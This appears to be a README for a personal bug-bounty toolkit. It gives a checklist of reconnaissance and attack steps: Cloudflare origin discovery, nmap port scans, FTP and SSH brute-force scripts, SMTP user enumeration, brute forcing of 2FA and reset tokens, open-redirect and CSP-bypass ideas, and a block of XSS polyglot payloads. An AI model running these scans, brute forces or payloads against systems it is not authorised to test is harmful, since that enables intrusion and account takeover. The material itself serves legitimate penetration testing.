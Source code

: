 A Small Set of Customized Tools for Merry Making

Steps:

* Discovery / Mapping:
  * Linked Resources:
    * Find inscope domains with enum-domains
      * Try to eliminate cloudflare:
        * Use enum-domains `csv` list for non-cloudflair ips
        * historical lookup: http://toolbar.netcraft.com/site_report?url=example.com
        * dig: `dig ANY example.com`
        * get them to send an email & check headers
        * https://rhinosecuritylabs.com/cloud-security/cloudflare-bypassing-cloud-security/
        * Signup & look at email headers for ip
      * Reverse IP lookup: https://github.com/darkoperator/dnsrecon
        * haven't tried ^ yet
    * via: virustotal => `https://virustotal.com/en/domain/<domain>/information/`
      * Observed subdomains
    * via: similarweb
    * Scan subdomains for popular services / plugins
      * curl subdomain, then cat response & grep for service strings
        * eg: facebook, wordpress, surveygizmo, aws, shopify, unbounce, fastly, heroku, github, desk, tumblr
      * Save so that you can go back historically if you find vulns
      * TODO: write that tool
    * nmap scans:
      * Port scan: `nmap -sS -A -PN -p- --script=http-title example.com`
        * Alternatives: `nmap -T4 -A -v example.com`
        * `nmap-domains/scan.rb` to scan
      * Attack individual targets as available
  * Unlinked Resources:
    * `dir-buster` to brute force
      * use seclists to augment:
        * RAFT lists
        * Git digger
        * svn digger
    * Try spidering deeper:
```
acme.com - 200
acme.com/backlog/ - 404
acme.com/controlpanel/ - 401 <-- dig deeper
acme.com/controlpanel/[bruteforce here now]
```
  * Tech stack -- check for CVEs against results here:
    * Wappalyzer (chrome)
    * Builtwith (chrome)
    * [retire.js](https://retirejs.github.io/retire.js/)
  * Custom engines
    * [WPScan](https://wpscan.org/)
      * plugins are more insecure than the platform!
    * [CMSmap](https://github.com/Dionach/CMSmap)
  * OSINT:
    * Use past flaws to pivot into new flaws
      * xssed.com
      * reddit xss
      * punkspider
      * xss.cx
      * xssposed.org
      * twitter search
  * SWFs search:
    * Google dorks: `site:url.com ext:swf`
  * Login w/ Facebook connect
    * look for `redirect_uri` & open redirects
      * Links to learn, I don't understand open redirect:
        * want to get tokens / access tokens
        * http://homakov.blogspot.se/2013/02/hacking-facebook-with-oauth2-and-chrome.html 
        * http://www.breaksec.com/?p=6039 Facebook Connect
  * 3rd Party Scripts
    * look for url downloads in scripts
      * are there url query parameters used in scripts?
    * `(get)?(query|url|qs|hash)param`
    * `location\.(hash|href|search)\.match`
    * bypass Content Security Policy
      * Look at CSP domains, use those as attack vector
      * eg: `<script src="mixpanel.com?callback=alert(1)">`

# Attacking Services:

### FTP:

* FTP-Brute: `nmap --script=ftp* -p 21 target.com`

### SSH:

* SSH-Brute: `nmap --script=ssh* -p 22 target.com`

### SMTP:

* Enum users: `nmap –script=smtp-enum-users target.com`
* http://pentestmonkey.net/tools/user-enumeration/smtp-user-enum

### EPMD (aka rabbbitmq):

* `nmap -p 4369 --script epmd-info <target>`

# Attacking Websites

### User Enumeration / Authentication

* Try to chain attacks in auth:
  * reset password + brute force tokens
* Timing Attack: Try to register / reset password / etc
  * Time how long it takes for known success vs known failed
  * Ref: http://cwe.mitre.org/data/definitions/208

### Brute Force

* TFA backup codes
* TFA codes
* Password reset tokens

### XSS

* polyglot payloads:

```
<PLAINTEXT>
"><img src=x onerror=confirm(1);>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```

* 3rd party vectors:
  * facebook login, google login, etc.
* dynamic anchor tags in url: `http://example.com#<xss-here>`
* in redirects
* js embedded in swf
* XSS'd username + password reset

# Tools to investigate

* https://intrigue.io/
